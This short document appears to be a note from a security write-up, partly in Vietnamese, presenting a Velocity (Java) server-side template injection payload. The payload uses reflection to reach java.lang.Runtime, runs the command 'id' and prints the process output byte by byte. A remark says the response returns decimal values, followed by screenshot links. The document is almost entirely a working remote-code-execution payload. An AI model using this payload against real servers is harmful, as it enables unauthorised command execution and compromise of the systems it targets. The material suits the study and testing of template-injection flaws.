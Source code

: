 # Velocity (Java)

Payload 

```java
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("id"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```

Tuy nhiên response trả về là dạng dec của hex
![alt text](image.png)

![alt text](image-1.png)


